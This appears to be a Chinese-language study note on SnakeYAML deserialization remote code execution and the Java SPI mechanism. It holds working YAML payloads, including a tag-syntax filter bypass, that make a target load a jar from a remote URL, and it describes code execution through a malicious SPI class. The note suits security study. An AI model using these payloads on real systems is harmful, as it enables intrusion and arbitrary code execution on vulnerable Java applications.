



### SnakeYaml
SnakeYaml是一个完整的YAML1.1规范Processor，用于解析YAML，序列化以及反序列化，支持UTF-8/UTF-16，支持Java对象的序列化/反序列化，支持所有YAML定义的类型。


### SnakeYaml有2个方法：
* Yaml.load()：入参是一个字符串或者一个文件，返回一个Java对象；
* Yaml.dump()：将一个对象转化为yaml文件形式;


### payload
* payloads1:
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1:7800/yaml-payload.jar"]
  ]]
]
```

* payloads2:

绕过 !! 的限制，如下： ！可以用 tag:yaml.org,2002 表示。
```yaml
!<tag:yaml.org,2002:javax.script.ScriptEngineManager>
则表示获取一个 javax.script.ScriptEngineManager 对象
```
```yaml
!<tag:yaml.org,2002:javax.script.ScriptEngineManager> [!<tag:yaml.org,2002:java.net.URLClassLoader> [[!<tag:yaml.org,2002:java.net.URL> ["http://127.0.0.1:7800/yaml-payload.jar"]]]]
```

简单复现：



### yaml反序列化
下面RCE(yamlRCE)，就是利用的 yaml反序列化漏洞利用。 利用方法和过程都是一样的。

这里对SPI机制再做一下讲解。


# SPI
正文之前先了解一下SPI机制。

SPI全称Service Provider Interface，是Java提供的一套用来被第三方实现或者扩展的接口，它可以用来启用框架扩展和替换组件。 SPI的作用就是为这些被扩展的API寻找服务实现。
* API （Application Programming Interface）在大多数情况下，都是实现方制定接口并完成对接口的实现，调用方仅仅依赖接口调用，且无权选择不同实现。 从使用人员上来说，API 直接被应用开发人员使用。
* SPI （Service Provider Interface）是调用方来制定接口规范，提供给外部来实现，调用方在调用时则选择自己需要的外部实现。 从使用人员上来说，SPI 被框架扩展人员使用。


# spi简单实现
### 接口
```java
package snakeYaml.SPI;

public interface SpiService {
    public void say();
}
```

### 实现类
SPI1
```java
package snakeYaml.SPI;

public class SPI1 implements SpiService{
    @Override
    public void say() {
        System.out.println("This is SPI->1");
    }
}
```

PSI2
```java
package snakeYaml.SPI;

public class SPI2 implements SpiService{
    @Override
    public void say() {
        System.out.println("This is SPI->2");
    }
}
```

##### 重点：接口实现类的全限定名
在classpath下面创建目录META-INF/services/，在下面创建文件名是上述接口全限定名的文件，在此文件中写入此接口的实现类的全限定名：



### 测试
```java
package snakeYaml.SPI;

import java.util.Iterator;
import java.util.ServiceLoader;

public class SpiDemo {
    public static void main(String[] args) {
       ServiceLoader<SpiService> serviceLoader = ServiceLoader.load(SpiService.class);
//        for (SpiService spiService : serviceLoader) {
//            spiService.say();
//        }
         Iterator<SpiService> iterator = serviceLoader.iterator();
        while (iterator.hasNext()) {
            SpiService spiService = iterator.next();
            spiService.say();
        }
    }
}
```


### RCE
* 如果存在任意文件写入的话，即构造一个恶意类，并添加到classpath下，导致代码执行
* 此时将将SPI1中say方法的内容改为calc，当运行后则会造成代码执行;

  
